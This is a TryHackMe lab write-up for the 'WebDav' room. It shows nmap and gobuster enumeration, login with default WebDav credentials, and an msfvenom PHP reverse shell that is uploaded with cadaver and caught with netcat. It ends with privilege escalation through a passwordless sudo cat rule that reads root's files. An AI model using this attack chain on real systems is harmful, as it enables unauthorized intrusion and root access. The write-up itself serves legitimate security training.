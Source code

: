 # TryHackMe – WebDav Write-up

## Overview
- Room: WebDav  
- Difficulty: Easy  
- Tags: Enumeration, Web, Exploitation, Privilege Escalation  

---

## Enumeration

### Nmap Scan
Run a basic nmap scan:

```bash
sudo nmap -sC -sV -Pn -p- xxx.xxx.xxx.xxx
```


**Results:**
```
Nmap scan report for xxx.xxx.xxx.xxx
Host is up (0.093s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Port 80 is running Apache 2.4.18 (Ubuntu).

---

## Web Enumeration

When visiting the site, we see the default Apache2 page.

### Gobuster
Run directory brute force:

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://xxx.xxx.xxx.xxx/
```

**Results:**
```
/.hta                 (Status: 403)
/.htpasswd            (Status: 403)
/.htaccess            (Status: 403)
/index.html           (Status: 200)
/server-status        (Status: 403)
/webdav               (Status: 401)
```

We discover a directory **/webdav** that requires authentication.

---

## Exploitation

We use default WebDav credentials found in public sources. After login, we gain the ability to upload files.

### Creating reverse shell
Generate a payload using `msfvenom`:

```bash
msfvenom -p php/reverse_php LHOST=xxx.xxx.xxx.xxx LPORT=4444 -f raw -o shell.php
```

- `-p php/reverse_php` – PHP reverse shell payload  
- `LHOST` – attacker IP  
- `LPORT` – listener port  
- `-f raw` – save as plain PHP file  
- `-o shell.php` – output filename  

### Upload reverse shell
Use **cadaver** to upload the PHP reverse shell:

```bash
cadaver http://xxx.xxx.xxx.xxx/webdav
put shell.php
```

Set up a listener:

```bash
nc -lvnp 4444
```

After opening `shell.php` in the browser, we get a reverse shell.

### Shell stabilization
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Privilege Escalation

Check sudo rights:

```bash
sudo -l
```

**Result:**
```
User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

We can run `cat` as root without password.

Read the root flag:

```bash
sudo cat /root/root.txt
```

---

## Flags
- root.txt: obtained using `sudo cat`

---

## Conclusion
We successfully:
1. Performed nmap scan and found the web server.  
2. Discovered a protected directory /webdav with gobuster.  
3. Used default WebDav credentials.  
4. Generated a PHP reverse shell with msfvenom and uploaded it using cadaver.  
5. Got a reverse shell and stabilized it.  
6. Escalated privileges using `sudo cat`.  

A simple but clear example of exploiting misconfigured WebDav and sudo rights.
